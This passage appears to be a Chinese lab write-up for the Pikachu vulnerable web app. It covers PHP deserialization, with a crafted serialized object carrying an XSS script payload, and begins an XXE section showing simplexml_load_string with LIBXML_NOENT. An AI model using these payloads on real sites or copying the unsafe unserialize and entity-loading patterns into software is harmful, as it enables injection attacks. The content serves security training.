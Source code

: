 再来看源代码

```php
class S{
    var $test = "pikachu";
    function __construct(){
        echo $this->test;
    }
}


//O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
$html='';
if(isset($_POST['o']
)){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }

}
```

o是可控的，反序列化成功会执行

先进行一个序列化

```php
<?php
class S{
	var $test = "<script>alert('xss')</script>";
}

$a = new S();
echo serialize($a);
?>
```

得到`O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}`

# xxe

代码

```bat
if(isset($_POST['submit']) and $_POST['xml'] != null){


    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```
